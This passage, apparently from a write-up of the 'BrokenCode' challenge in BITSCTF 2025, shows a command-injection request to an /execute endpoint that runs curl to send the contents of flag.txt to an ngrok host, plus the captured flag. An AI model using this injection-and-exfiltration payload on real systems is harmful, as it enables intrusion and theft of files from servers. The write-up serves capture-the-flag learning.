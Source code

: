 > Once I did that, I sent it to the server with the endpoint `/execute?flag=;curl%20https://29ca-2-37-167-108.ngrok-free.app?flag=$(cat%20flag.txt)`:
> 
> ![Command Injection](/images/BITSCTF-2025/BrokenCode/command_injection.png "Command Injection") 
> 
> And through the ngrok web interface, I extracted the flag.
>
### Flag capture
>  
>   ![Manual Flag](/images/BITSCTF-2025/BrokenCode/manual_flag.png "Manual Flag")

# 🛠️ Exploitation Process
## Approach
> The exploit creates a local server that is forwarded by ngrok. Once we execute the payload on the challenge server, it captures the request and extracts the `flag` parameter, then constructs the flag and prints it:
> 
> - [:(far fa-file-archive fa-fw): Exploit](/resources/BITSCTF-2025/BrokenCode/exploit.py)

# 🚩 Flag Capture
>{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
BITSCTF{h3r3_y0u_ar3_l3ts_g000000}
{{< /typeit >}}
>{{< /admonition >}}
>
## Proof of Execution